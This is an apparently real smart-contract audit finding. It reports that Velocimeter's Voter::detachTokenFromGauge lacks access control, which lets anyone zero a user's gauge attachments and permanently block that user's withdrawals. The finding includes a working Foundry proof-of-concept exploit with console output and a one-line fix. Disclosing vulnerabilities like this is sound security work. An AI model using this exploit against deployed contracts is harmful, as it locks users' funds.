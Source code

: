 Polite Butter Gazelle

High

# `Voter::detachTokenFromGauge` missing access control allows attacker to block withdrawals from gauges

## Summary

`VotingEscrow::create_lock` allows users to lock their `LP` tokens in return for an NFT (veNFT) with `token id` that represents their locked position.

`veNFT` holders can choose to deposit into gauges, which will increment their `attachments mapping` (attached tokens) amount in `VotingEscrow` that corresponds to their `token id`. Conversely, withdrawing will `detach` their token by decrementing their `attachments` amount in `VotingEscrow`.

When the `attachments` is incremented, it is done by the following call flow: `GaugeV4::deposit` => `Voter::attachTokenToGauge` => `VotingEscrow::attach`. `Voter::attachTokenToGauge` verifies that the `msg.sender` is a valid gauge.

However, `Voter::detachTokenFromGauge` does *not* verify that the caller is from a valid gauge. Anyone can call this function by passing in any `token id` to decrement the `attachments` amount of that `token id` until `attachments = 0`.

Then, when the user decides to withdraw, the following call flow will execute: `GaugeV4::withdraw` => `Voter::detachTokenFromGauge` => `VotingEscrow::detach`, which will revert due to underflow since it will decrement 1 from `attachments = 0`.

This will allow an attacker to permanently DoS withdrawals by calling `Voter::detachTokenFromGauge` with an innocent user's `tokenId` until their `attachments` mapping is decremented to 0.

## Vulnerability Detail

Users can lock their LP tokens to receive a `veNFT`:

[VotingEscrow.sol#L835-L852](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L835-L852)
```javascript
    /// @notice Deposit `_value` tokens for `_to` and lock for `_lock_duration`
    /// @param _value Amount to deposit
    /// @param _lock_duration Number of seconds to lock tokens for (rounded down to nearest week)
    /// @param _to Address to deposit
    function _create_lock(uint _value, uint _lock_duration, address _to) internal returns (uint) {
        uint unlock_time = (block.timestamp + _lock_duration) / WEEK * WEEK; // Locktime is rounded down to weeks

        require(_value > 0); // dev: need non-zero value
        require(unlock_time > block.timestamp, 'Can only lock until time in the future');
        require(unlock_time <= block.timestamp + MAXTIME, 'Voting lock can be 52 weeks max');

        ++tokenId;
        uint _tokenId = tokenId;
@>      _mint(_to, _tokenId); //@audit will mint an NFT to the caller

        _deposit_for(_tokenId, _value, unlock_time, locked[_tokenId], DepositType.CREATE_LOCK_TYPE);
        return _tokenId;
    }
```

They can proceed to attach tokens to gauges by calling `GaugeV4::deposit`

Note that `GaugeV4.sol` is mentioned in this report, however both `Gauge.sol` and `Gauge4.sol` are in-scope for this audit and this bug still exists whether `Gauge.sol` is used or `Gauge4.sol`.

[GaugeV4.sol#L477-L482](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L477-L482)
```javascript
    if (tokenId > 0) {
        require(IVotingEscrow(_ve).ownerOf(tokenId) == account);
        if (tokenIds[account] == 0) {
            tokenIds[account] = tokenId;
@>          IVoter(voter).attachTokenToGauge(tokenId, account);
        }
```

Note that they can only attach once for each `tokenId` since the `tokenIds[account]` mapping will be populated.

Following the call flow, `Voter::attachTokenToGauge` is called with the account and corresponding `tokenId`:

[Voter.sol#L431-L436](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L431-L436)
```javascript
    function attachTokenToGauge(uint tokenId, address account) external {
        require(isGauge[msg.sender]);
        require(isAlive[msg.sender]); // killed gauges cannot attach tokens to themselves
@>      if (tokenId > 0) IVotingEscrow(_ve).attach(tokenId);
        emit Attach(account, msg.sender, tokenId);
    }
```

`VotingEscrow::attach` will increment the `attachments` amount for the `tokenId`:

[VotingEscrow.sol#L1185-L1188](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1185-L1188)
```javascript
   function attach(uint _tokenId) external {
        require(msg.sender == voter);
        attachments[_tokenId] = attachments[_tokenId] + 1;
    }
```

Now, let's take a look at `Voter::detachTokenFromGauge`:

[Voter.sol#L444-L447](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444-L447)
```javascript
    function detachTokenFromGauge(uint tokenId, address account) external {
        if (tokenId > 0) IVotingEscrow(_ve).detach(tokenId);
        emit Detach(account, msg.sender, tokenId);
    }
```

We can see this function lacks access control. A caller can specify any `tokenId` and proceed to detach their tokens:

[VotingEscrow.sol#L1190-L1193](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1190-L1193)
```javascript
    function detach(uint _tokenId) external {
        require(msg.sender == voter);
        attachments[_tokenId] = attachments[_tokenId] - 1;
    }
```

Let's assume an attacker calls this on a user's `tokenId` until their `attachments` amount is 0. Then, when the user proceeds to withdraw their tokens via `GaugeV4::withdraw`:

[GaugeV4.sol#L536-L539](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L536-L539)
```javascript
    if (tokenId > 0) {
        require(tokenId == tokenIds[msg.sender]);
        tokenIds[msg.sender] = 0;
@>      IVoter(voter).detachTokenFromGauge(tokenId, msg.sender);
```

This call will attempt to execute `VotingEscrow::detach` and proceed to execute `attachments = 0 - 1`, which will revert due to underflow. The attacker will be able to permanently block withdrawals.

## Proof of Concept

<details>
<summary>Coded PoC</summary>
<br>

Create a file called `testWithdrawDoS.t.sol` in the `test/` folder.

Add the following to `test/testWithdrawDoS.t.sol` and run `forge test --mt testWithdrawBlocked -vv`

```javascript
pragma solidity 0.8.13;

import "./BaseTest.sol";
import "contracts/factories/GaugeFactoryV4.sol";

contract testWithdrawDoS is BaseTest {
    VotingEscrow escrow;
    GaugeFactoryV4 gaugeFactory;
    BribeFactory bribeFactory;
    Voter voter;
    GaugeV4 gauge;

    function setUp() public {
        deployOwners();
        deployCoins();
        mintStables();

        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 2 * TOKEN_1M; // use 1/2 for veNFT position
        amounts[1] = TOKEN_1M;
        mintFlow(owners, amounts);

        VeArtProxy artProxy = new VeArtProxy();
        deployPairFactoryAndRouter();

        deployMainPairWithOwner(address(owner));
        escrow = new VotingEscrow(address(FLOW), address(flowDaiPair), address(artProxy), owners[0]);


        gaugeFactory = new GaugeFactoryV4();
        bribeFactory = new BribeFactory();
        gaugePlugin = new GaugePlugin(address(FLOW), address(WETH), owners[0]);
        voter = new Voter(address(escrow), address(factory), address(gaugeFactory), address(bribeFactory), address(gaugePlugin));
        factory.setVoter(address(voter));

        address[] memory tokens = new address[](4);
        tokens[0] = address(USDC);
        tokens[1] = address(FRAX);
        tokens[2] = address(DAI);
        tokens[3] = address(FLOW);
        voter.initialize(tokens, address(owner));
        escrow.setVoter(address(voter));

        deployOptionTokenV3WithOwner(
            address(owner),
            address(gaugeFactory),
            address(voter),
            address(escrow)
        );

        gaugeFactory.setOFlow(address(oFlowV3));

        flowDaiPair.setVoter(); // update the pair contract to use the correct voter contract
             
        address address1 = factory.getPair(address(FLOW), address(DAI), false);

        pair = Pair(address1);
        vm.prank(address(voter));
        address gaugeAddress = voter.createGauge(address(pair), 0);
        gauge = GaugeV4(gaugeAddress);
        vm.stopPrank();
        oFlowV3.setGauge(address(gauge));
        
    }

    function washTrades() public {
        FLOW.approve(address(router), TOKEN_100K);
        DAI.approve(address(router), TOKEN_100K);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            TOKEN_100K,
            TOKEN_100K,
            0,
            0,
            address(owner),
            block.timestamp
        );

        Router.route[] memory routes = new Router.route[](1);
        routes[0] = Router.route(address(FLOW), address(DAI), false);
        Router.route[] memory routes2 = new Router.route[](1);
        routes2[0] = Router.route(address(DAI), address(FLOW), false);

        uint256 i;
        for (i = 0; i < 10; i++) {
            vm.warp(block.timestamp + 1801);
            assertEq(
                router.getAmountsOut(TOKEN_1, routes)[1],
                flowDaiPair.getAmountOut(TOKEN_1, address(FLOW))
            );

            uint256[] memory expectedOutput = router.getAmountsOut(
                TOKEN_1,
                routes
            );
            FLOW.approve(address(router), TOKEN_1);
            router.swapExactTokensForTokens(
                TOKEN_1,
                expectedOutput[1],
                routes,
                address(owner),
                block.timestamp
            );

            assertEq(
                router.getAmountsOut(TOKEN_1, routes2)[1],
                flowDaiPair.getAmountOut(TOKEN_1, address(DAI))
            );

            uint256[] memory expectedOutput2 = router.getAmountsOut(
                TOKEN_1,
                routes2
            );
            DAI.approve(address(router), TOKEN_1);
            router.swapExactTokensForTokens(
                TOKEN_1,
                expectedOutput2[1],
                routes2,
                address(owner),
                block.timestamp
            );
        }
    }



    function testWithdrawBlocked() public {
        vm.startPrank(address(owner)); // assume this address is Alice's address
        washTrades();
        flowDaiPair.approve(address(gauge),TOKEN_1);
        flowDaiPair.approve(address(escrow), TOKEN_1);
        FLOW.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration); // create lock for Alice
        assertEq(escrow.balanceOf(address(owner)), 1);

        uint256 gaugeBalanceBefore = flowDaiPair.balanceOf(address(gauge));
        uint256 attach = escrow.attachments(1);

        console.log("Attachments of tokenId 1 before Alice's deposit: ", attach);
        console.log("Gauge balance before Alice's deposit: ", gaugeBalanceBefore);

        gauge.deposit(TOKEN_1, 1); // deposit lp tokens

        uint256 gaugeBalanceAfter = flowDaiPair.balanceOf(address(gauge));
        console.log("Gauge balance after Alice's deposit: ", gaugeBalanceAfter);

        attach = escrow.attachments(1);
        console.log("Attachments of tokenId 1 after Alice's deposit: ", attach);

        vm.stopPrank();

        vm.warp(block.timestamp + 7 * 86400 + 1);
        
        address attacker = vm.addr(1);
        vm.startPrank(address(attacker));
        voter.detachTokenFromGauge(1, address(attacker)); // attacker sets attachment to 0

        attach = escrow.attachments(1);
        console.log("Attachments of tokenId 1 after attacker detaches Alice's token: ", attach);

        vm.stopPrank();

        vm.startPrank(address(owner));
        vm.expectRevert();
        gauge.withdraw(TOKEN_1); // Alice's attempt to withdraw will fail due to underflow
        vm.stopPrank();
    }
}
```
</details>

### Console Output

```text
Running 1 test for test/testWithdrawDoS.sol:testWithdrawDoS
[PASS] testWithdrawBlocked() (gas: 3474391)
Logs:
  Attachments of tokenId 1 before Alice's deposit:  0
  Gauge balance before Alice's deposit:  0
  Gauge balance after Alice's deposit:  1000000000000000000
  Attachments of tokenId 1 after Alice's deposit:  1
  Attachments of tokenId 1 after attacker detaches Alice's token:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 15.85ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

We can see from the test that Alice's attempt to withdraw reverted due to underflow since the attacker detached her tokens from the gauge.

## Impact

Denial of Service, withdrawals blocked completely, users' tokens locked in `GaugeV4` contract, loss of funds.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L835-L852

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L477-L482

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L431-L436

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1185-L1188

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444-L447

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1190-L1193

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L536-L539

## Tool used

Manual Review

## Recommendation

Ensure the function can only be called by users who initiate withdrawals from gauges (which verifies sender is owner of tokenId)

```diff
    function detachTokenFromGauge(uint tokenId, address account) external {
+       require(isGauge[msg.sender]);
        if (tokenId > 0) IVotingEscrow(_ve).detach(tokenId);
        emit Detach(account, msg.sender, tokenId);
    }
```